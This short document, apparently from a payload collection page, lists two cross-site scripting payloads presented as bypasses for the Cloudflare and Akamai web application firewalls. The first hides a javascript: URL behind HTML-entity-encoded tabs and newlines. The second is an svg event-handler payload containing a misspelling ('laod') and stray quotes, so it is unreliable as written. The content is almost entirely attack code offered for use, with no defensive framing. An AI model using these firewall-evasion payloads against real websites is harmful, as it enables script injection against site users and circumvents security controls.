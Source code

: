 ## Cloudflare XSS Bypass
By [AISECUREME](https://twitter.com/aisecureme)

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

## Akamai XSS Bypass
By [AISECUREME](https://twitter.com/aisecureme)

```html
“><svg/on</script>laod=alert>
```
